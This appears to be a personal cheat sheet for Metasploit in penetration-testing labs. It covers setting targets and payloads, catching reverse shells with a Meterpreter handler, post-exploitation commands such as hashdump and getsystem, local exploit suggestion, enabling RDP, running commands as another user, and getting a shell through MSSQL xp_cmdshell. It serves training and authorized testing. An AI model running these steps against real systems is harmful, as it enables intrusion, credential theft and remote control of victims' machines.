 # Metasploit

This page is just basic stuff I forget all the time. There are other Metasploit tips in sections where it's relevant.

## Advanced options

Metasploit is so derp-easy that you can often exploit a machine by setting the remote IP in `RHOST` and hitting the pew-pew button.

But sometimes that doesn't work and you cry because you know you're just a lame script kiddie pretending to be a hacker. However, you can aspire to be a _decent_ script kiddie by knowing how to use more advanced options in Metasploit.

Exploits might not work because of an unusual configuration or path issue, which you can set with either `show options` or `show advanced`. The `advanced` section may let you set`verbose = true` to provide more information about why an exploit isn't working.

You might also need to set the correct target:

```text
show targets
set target [target number]
```

[MSO8-067](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi) sometimes needs this because the module can't always identify the exact operating system version and language pack.

It's also important to pay attention to the default payload. Occasionally, you'll run into something weird like an Apache web server running on Windows, so the default Unix payload won't work.

Check and modify the payload:

```text
show payloads
set payload [whatever]
```

## Meterpreter

To catch shells using meterpreter:

```text
use exploit/multi/handler
set LHOST [attack machine]
set LPORT 443
run
```

If you're VPNed into a lab, pay attention to the IP address. I've noticed that the first time this module runs, it defaults to `eth0` and you have to restart it to use something like `tap0`.

### Basic commands

Frequently used commands, mostly to enumerate a victim machine:

```text
getuid      # get current user
sysinfo     # gets OS and hostname
execute     # execute a command
cd          # change directory
pwd         # print working directory
ls          # list files in current directory
mkdir       # make a directory
del         # delete a file
cat         # read the contents of a file
download    # download a file to your machine
hashdump    # get contents of password file
edit        # edit a file with vim
rm          # delete a file
rmdir       # remove directory
upload      # upload a file to the victim
ps          # list running processes
migrate     # move the active process to a designated PID
getpid      # get the current process ID (PID)
kill        # terminate a process by PID
ipconfig    # display network interfaces
portfwd     # forward a port on the victim to a remote service
route       # view or modify routing table
getprivs    # get as many privileges as possible
getsystem   # get Administrator
reboot      # reboot the victim
shutdown    # shut down the victim
reg         # interact with the victim's registry
```

### Sessions

Meterpreter is nice because it lets you maintain multiple shell sessions and use local exploits against them. For example, the [Rejetto exploit](https://www.exploit-db.com/exploits/39161/) always seems to fire a few times and with meterpreter, you can catch every shell session with a single listener.

To list active sessions:

```text
sessions -l
```

To enter a session:

```text
sessions -i [session number]
```

To enter a shell from a session \(not use meterpreter commands\):

```text
shell
```

To exit the shell and return to meterpreter, type `exit`.

## Useful exploits

I mostly use Metasploit on Windows machines because they still feel tricky to me. Below is a list of useful exploits for enumerating and running complex commands.

### Windows

Once you have a meterpreter shell, you can scan for local exploits and run them. Unlike remote exploits which target using IP addresses, local exploits run against a chosen shell session.

To access local exploits, you'll need to jump out of meterpreter using `background` and select one with the `use` command:

```text
meterpreter > background
use /exploit/windows/whatever
show options
[edit options as needed]
set SESSION [session number]
run
```

Check for exploits:

```text
meterpreter > run /post/multi/recon/local_exploit_suggester
```

Get a remote desktop:

```text
meterpreter > run post/windows/manage/enable_rdp
```

Run a command as a different user:

```text
background
use post/windows/manage/run_as
[set username and password]
set CMDOUT true # output results of command
set CMD "type C:\Users\Administrator\Desktop\root.txt"
run
```

There are [manual ways to run commands as different user](https://stackoverflow.com/questions/12903629/how-do-i-run-a-program-from-command-prompt-as-a-different-user-and-as-an-admin) but I haven't tried them because I'm lazy.

### MSSQL

If you have credentials, you can use this module to get a shell:

```text
exploit/windows/mssql/mssql_payload
[set username and password]
run
```

It uses the `xp_cmdshell` stored procedure, [which isn't always enabled but can be](https://medium.com/pentestsec/hackthebox-tally-ctf-writeup-e132354d60e1). You could probably do the same exploit manually using a tool like [dbeaver](https://dbeaver.io/), but I haven't managed it yet.




